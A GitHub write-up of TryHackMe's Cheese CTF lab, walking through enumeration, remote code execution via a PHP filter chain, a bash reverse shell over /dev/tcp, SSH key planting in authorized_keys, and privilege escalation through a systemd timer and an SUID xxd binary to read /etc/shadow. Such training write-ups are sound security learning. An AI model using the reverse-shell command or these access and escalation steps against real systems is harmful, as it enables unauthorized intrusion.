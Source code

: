 # Cheese_CTF
Here I am going to demonstrate how to complete tryhackme's Cheese CTF. I will enumerate, exploit, and gain access to root files.
YouTube Video I referenced for help: https://www.youtube.com/watch?v=V6tS5iPIX08

# Tools Used
- Nmap: Port Scanning
- Dirsearch: Directory Brute Forcing
- Caido: Proxy and HTTP Request Manipulation
- Kali Linux
  
# Skills Learned
- How to brute force directories by using a wordlist
- Detecting vulnerabilities by capturing, analyzing, and manipulation HTTP requests
- Creating a Reverse Shell
- Navigating Linux directories
  
# Enumeration
  ## Ping
  - First thing I did was edit /etc/hosts to hold the IP of the target machine as cheese.thm
    - The /etc/hosts entry is as follows: 10.10.63.230    cheese.thm
    - This allows me to ping the cheese.thm instead of having to remember the address.
    ![image](https://github.com/user-attachments/assets/80d2d092-1a00-4c2b-88d4-959c3d2fe553)

  ## nmap scan
  nmap -p- cheese.thm -T5 -v
    
  - First I scanned all hosts with the above nmap command. I found that every port is open which is strange.
    - The below image shows only some of the ports, since showing all of the ports would be too large of an image.   
    ![image](https://github.com/user-attachments/assets/e2b881f2-df5c-41dc-879a-fb6c3a9a4f1d)

  ## dirsearch
  - Among these open ports is port 80. So the first thing to find any directories associted with the web server I used dirsearch.
    
    ![image](https://github.com/user-attachments/assets/4a12f6e2-da96-4771-b3ce-a6f34279a133)
    - I found that the above directories through the dirsearch. After searching through some, I found the /messages.html to be especially interesting.
  ## web enumeration
  - I used Caido to view the webpage through it's built in proxy.
  - After visiting the http://cheese.thm/messages.html, I was greeted with the page below.
    ![image](https://github.com/user-attachments/assets/645ed499-eb08-43e5-9708-da5a842efabe)
    
  - After clicking the link I the below message was shown. However, the most interesting part is the php filter in the url which is our attack vector.
    
    ![image](https://github.com/user-attachments/assets/6837bcd1-cdb3-4ccd-97cf-0b195bf00069)
    
# Exploitation
  ## PHP filter
  - I discovered that it's possible to get remote code execution using a php filter chain.
  - I first turned Caido into queing mode to capture the HTTP GET request.
    ![image](https://github.com/user-attachments/assets/46c481b6-ffaa-42c8-877f-5f2b7f6e136a)
  - Gaining the actual remote code execution is done by using a PHP chain generator. The link to the generator is on github: https://github.com/synacktiv/php_filter_chain_generator
    
  ## Reverse Shell
  Link to Reverse Shell setup: https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/#reverse-shell
  - The first step is to create a revshell script on your local machine. The IP address is changed to your own IP address.
    bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
  - Then in a new terminal uses the php filter generator to generate the chain for RCE.
    ![image](https://github.com/user-attachments/assets/0c1ab196-5f13-49f4-b482-ed30fdec1f37)
  - Then set up a netcat listener on the same port used in the revshell script, which is port 4444.
    ![image](https://github.com/user-attachments/assets/b7215df6-80e6-464d-bef0-34b1d8a9a6ee)
  - Next set up a simple web server on port 80 to curl the request back to your machine.
    ![image](https://github.com/user-attachments/assets/e4d87474-1716-4326-9dfd-f603f1359a43)
  - I pasted the php filter chain created earlier into the GET request we captured earlier to replay, and click send.
    ![image](https://github.com/user-attachments/assets/ee49df70-18de-47ac-b984-5dfabe23a1ef)
  - After sending we can see that a reverse shell has been created.
    ![image](https://github.com/user-attachments/assets/726092d2-fec7-4cf3-9b9b-91abda913ca9)
    ![image](https://github.com/user-attachments/assets/e9ac3a4c-c3a4-4dc0-ac05-59891b2e433b)
# User Flag
  - Now that we are in I can list files and directories. I can also move to the /home direcrory to find hosts (comte being imporant here).
    
    ![image](https://github.com/user-attachments/assets/02f2e66f-d81f-4099-8cd7-3f0cf38a58b3)
  - We can move into comte and view the files listed. The user.txt file is listed however we get permission denied when trying to read it.

    ![image](https://github.com/user-attachments/assets/df1079cf-e01f-4fc9-ab7d-471ffb625430)
    
  ### SSH Access
  - In order to get access, we need to be able to SSH. As seen before we have write access to the ~/.ssh directory, so we can move to this
    directory and see that there is an authorized_keys file we can write to. This means we can import our own local public key to the
    authorized_keys file to allow us to ssh as comte from our local machine.
    ![image](https://github.com/user-attachments/assets/c707c093-2846-472a-92c3-d99fa552e015)
  - To do this we find our own public key in our /.ssh directory and echo the public key into the authorized_keys file.
    ![image](https://github.com/user-attachments/assets/7e2108c5-3c3c-4a31-8ec3-101e6ccf5244)
    ![image](https://github.com/user-attachments/assets/063eed45-5f5c-42a7-842c-c8300f31b898)
  - Now we can ssh into our target machine as comte from our own machine and successfuly read the file as comte. However, I am not showing the flag here.
    
    ![image](https://github.com/user-attachments/assets/2b94a5b3-d4ac-4cb3-a556-42b132998e97)


# Privelage Escalation
- We can discover what services we can run as comte with the sudo -l command.
  ![image](https://github.com/user-attachments/assets/c053fa75-bb7f-4d56-a4ad-d577fb3041b8)
- Moving into the /etc/systemd directory allows us to view the details of the exploit.timer and exploit.service.
  ![image](https://github.com/user-attachments/assets/ad5e5f8d-bf04-4bc4-ace8-ec81c4602e64)
- As seen there isn't a time specified yet in the exploit timer, so I used nano to modify the exploit.timer file and specify 5 seconds.
  
  ![image](https://github.com/user-attachments/assets/4611fc23-472a-445c-928c-0d85fbd8d676)
- After setting this it's possible to run the sudo commands from earlier to run the exploit timer. Then you can move into the /opt directory to view
  the xxd service.
  - Link to view /xxd binary privelage escalation tactics: https://gtfobins.github.io/gtfobins/xxd/
  ![image](https://github.com/user-attachments/assets/a0dbe60e-932f-4289-bd60-bb4684ea7399)
- The above link says the -s bit of the /.xxd allows for any files to be read. So we can now read files only availabe to root such as /etc/shadow
  ![image](https://github.com/user-attachments/assets/107ae72f-9c1c-46e4-9872-b0be0b1ef7a4)


# Root Flag
- Using the above method the root.txt file can also be read to gain the root flag. Which I once again will not show.
  ![image](https://github.com/user-attachments/assets/50a91a3a-7ab7-4cbf-8b86-11cd77213557)













